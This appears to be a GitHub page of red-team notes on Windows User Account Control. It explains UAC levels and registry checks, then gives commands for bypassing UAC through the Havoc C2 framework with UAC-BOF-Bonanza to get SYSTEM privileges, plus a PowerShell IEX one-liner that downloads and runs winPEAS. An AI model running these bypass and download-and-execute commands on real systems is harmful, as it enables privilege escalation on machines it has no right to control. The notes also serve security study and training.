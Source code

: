 # UAC - User Account Control (Privilege Escalation)

User Account Control (UAC) is a security feature in Windows that helps prevent unauthorized changes to your computer. These changes can be initiated by applications, viruses, or other forms of malware. UAC ensures that such changes cannot be made without your knowledge or consent, adding an extra layer of security.

# Process and integrity levels

screenshot admin user medium integrity

![image](./images/uac_adminprivs.jpg)

## How UAC Works

1. **Permissions and Elevation**
When you or an application tries to make changes that require administrative privileges, UAC prompts you to confirm or deny the action. This is known as elevation. Only an administrator account can provide the necessary permission to proceed.

2. **Secure Desktop**
In higher UAC settings, the prompt appears on the secure desktop. This is a screen dimming feature that makes it difficult for malware to interact with or spoof the UAC prompt. Essentially, it ensures that the prompt is coming from Windows and not from a malicious program.

3. **Levels of Notification**
UAC has different levels of notification settings, ranging from always notifying you of changes to never notifying you (effectively turning off UAC).

## User Account Control (UAC) has four levels of notification settings:

1. **Always notify**: This is the highest level of protection. It notifies you before any changes are made to your computer that require administrator permissions. It also freezes other tasks until you respond.

2. **Notify me only when programs try to make changes to my computer**: This is the `DEFAULT` level. It notifies you when programs try to make changes to your computer or install software.

3. **Notify me only when programs try to make changes to my computer (do not dim my desktop)**: Similar to the previous level, but it doesn't switch to the Secure Desktop with desktop locking.

4. **Never notify**: This is the lowest level of protection. UAC is disabled, and you won't be notified when changes are made to your computer.

You can adjust these settings by moving the slider in the User Account Control Settings window.

# MITRE Reference

![image](./images/uac_mitre.jpg)

![image](./images/uac_settings.jpg)

Running a simple powershell command that add's a registry key with some values shows nicely what this actually means:

![image](./images/uac_ps.jpg) 

![image](./images/uac_prompt.jpg)

Check if UAC is enabled (1 = enabled, 0 is disabled)

```powershell
Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' |Select-object EnableLua
```

And to check which level it is :

```powershell
Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' |Select-object ConsentPromptBehaviorAdmin
```
| Value | Description                                  |
| ----- | -------------------------------------------- |
| 0     | No Prompt                                    |
| 1     | Prompt for credential on the secure desktop  |
| 2     | Prompt for CONSENT on the secure desktop     |
| 3     | Prompt for Credentials on the normal desktop |
| 4     | Prompt for CONSENT on the normal desktop     |
| 5     | Prompt for CONSENT for non-windows binaries  |




https://www.youtube.com/watch?v=ZhaZJ4Uipqk

Fodhelper


Demo with cmd.exe -> medium level even if admin
runas 
show whoami / groups
show system informer


start beacon as unprivileged user

whoami groups

```bash
sudo apt install mingw-w64 -y

git clone https://github.com/icyguider/UAC-BOF-Bonanza.git
make
```

In Havoc -> Script Manager Load .py

Set Sleep to 10

```code
uac-bypass sspidatagram c:\windows\system32\cmd.exe
uac-bypass sspidatagram c:\temp\demon.x64.exe -> NT Authority\System
uac-bypass silentcleanup /opt/havoc/payloads/demon.x64.exe -> error
```

---
Priv Esc.

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```

